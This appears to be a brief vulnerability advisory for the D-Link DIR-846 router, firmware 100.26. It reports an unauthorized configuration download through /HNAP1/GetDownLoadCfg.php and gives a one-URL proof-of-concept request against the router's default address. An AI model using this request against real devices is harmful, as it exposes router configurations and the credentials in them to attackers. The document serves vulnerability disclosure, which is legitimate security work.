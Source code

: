 # D-Link DIR-846 Unauthorized download config file #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

1. The vulnerable code is in file /squashfs-root/www/HNAP1/GetDownLoadCfg.php.
![](dlink9.png)
1. POC http://192.168.0.1/HNAP1/GetDownLoadCfg.php
